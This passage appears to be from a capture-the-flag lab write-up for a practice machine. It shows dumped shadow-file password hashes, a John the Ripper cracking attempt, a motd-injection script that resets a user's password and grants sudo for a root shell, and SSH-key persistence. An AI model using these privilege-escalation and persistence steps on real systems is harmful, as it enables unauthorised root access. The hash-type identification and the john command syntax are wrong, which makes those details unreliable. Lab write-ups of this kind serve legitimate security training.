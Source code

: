 root:$6$YZ5Z19pP$ShJsTqviOfvZo1apR2ktP198YA0U9U.KFF/yxWvZPRCZ.VkRxwZZ2DKXO3ubKsBewv8/2XzQc6YOKGofbBqEo/:18133:0:99999:7:::
sysadmin:$6$yjfs6qv1$h19rMhJv.memi/.hzPG5MAjChJHYGTO5HCUSOryF3gwzk3LpBUtYso7y9ZzZ2Rg7tDWjFuu1fE0OjVX2/9Jtj/:18133:0:99999:7:::
webadmin:$1$8UzK5eyE$Jm5DNl.IFI4ut/2K.bQUa0:18131:0:99999:7:::
```
```

Use [hash-identifier](https://tools.kali.org/password-attacks/hash-identifier) to see what the hashes format is. The shadow file uses **:** as a delimiter and the hash itself is the second value on each line. Hash-identifier told me the hashes were SHA256.

To attempt cracking passwords, I used [John the ripper](https://tools.kali.org/password-attacks/john). First I had to copy the hash to a file alone. The command I tried was **john –wordlists=/usr/share/wordlists/rockyou.txt hash.txt**. There’s a lot of passwords to attempt in rockyou.txt. It will take a long time, especially if you are on an older machine or a small VM this will hurt your performance. I was unable to find the passwords using this method, I got to the root user before this finished running.

### Getting a root shell

What eventually ended up working was making a script in the /tmp directory and executing it with the motd. The script reset sysadmin’s password to a known value and adding sysadmin to the sudo group.

```
<pre class="wp-block-code">```
#!/bin/bash

echo -e "Iamreally1337!\nIamreally1337!" | passwd sysadmin
usermod -aG sudo sysadmin

echo "sysadmin: Iamreally1337!"
```
```

*Tip: Don’t forget to make the script executable by root!* **chmod +x /tmp/resetpass.sh**

```
<pre class="wp-block-code">```
ssh -t sysadmin@10.10.10.181 'echo "./tmp/resetpass.sh" >> /etc/update-motd.d/00-header' && ssh sysadmin@10.10.10.181
```
```

After running this script, sudo su root and using **Iamreally1337!** as the password gives us an admin shell. Adding our SSH public key to root’s authorized\_keys as we did for webadmin and sysadmin will allow us to ssh directly to the box as root.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/05/traceback_10_make_sysadmin_sudo_and_change_password-1024x364.png)</figure></div>## Clean up!

Ok, it’s a lab, just revert the box. However in practice it’s important for hackers to cover their tracks and penetration testers to revert any changes. In this case, a previous hacker (x4H4) left his signature all over the server. It’s quite the statement and the web server owner would see and react to it quickly. I prefer to remove everything except what is required for access. I’ll keep my public key on the sysadmin user as well as.

